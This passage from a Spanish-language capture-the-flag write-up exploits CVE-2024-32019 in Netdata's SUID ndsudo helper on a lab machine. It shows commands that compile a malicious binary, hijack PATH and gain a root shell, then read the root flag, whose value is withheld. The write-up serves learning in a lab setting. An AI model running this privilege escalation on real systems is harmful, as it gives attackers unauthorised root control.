Como es una aplicacion ya definida, me pongo a buscar una version, para buscarla y ver si es vulnerable.

Tal parece que la encontré, corre la versión v1.45.2 y menciona que se debe de actualizar por errores críticos, asi que probablemente si exista una vulnerabilidad para esto.

### Exploit CVE-2024-32019
Buscando en internet encontré que existe un CVE (CVE-2024-32019) que habla de una configuracion erronea y se puede aprovechar para escalar privilegios, esto necesita de una ruta "ndsudo" que es precisamente lo que vimos en los SUID. (https://github.com/dollarboysushil/CVE-2024-32019-Netdata-ndsudo-PATH-Vulnerability-Privilege-Escalation)
Asi que replicando el exploit, veo que no hay gcc en la victima, asi que compilo el script en mi maquina.
~~~bash
┌──(kali㉿kali)-[~/htb/editor2/exploits]
└─$ nano privesc.c            
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/editor2/exploits]
└─$ gcc privesc.c -o nvme
~~~
Luego paso el archivo a la maquina victima (por el metodo que quieran), para asi darle permisos de ejecución, modificar el PATH para que señale al archivo malicioso que creamos y finalemnte ejecutar el SUID ndsudo.
~~~bash
oliver@editor:/tmp/pepe$ chmod +x nvme
oliver@editor:/tmp/pepe$ export PATH=/tmp/pepe:$PATH
oliver@editor:/tmp/pepe$ which nvme
/tmp/pepe/nvme
oliver@editor:/tmp/pepe$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
root@editor:/tmp/pepe# 
~~~
De esa forma de obtiene acceso como usuario root.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con acceso como usuario root ya se puede leer la root flag y realizar cualquier accion que requiera.
~~~bash
root@editor:/tmp/pepe# cd /root
root@editor:/root# cat root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido
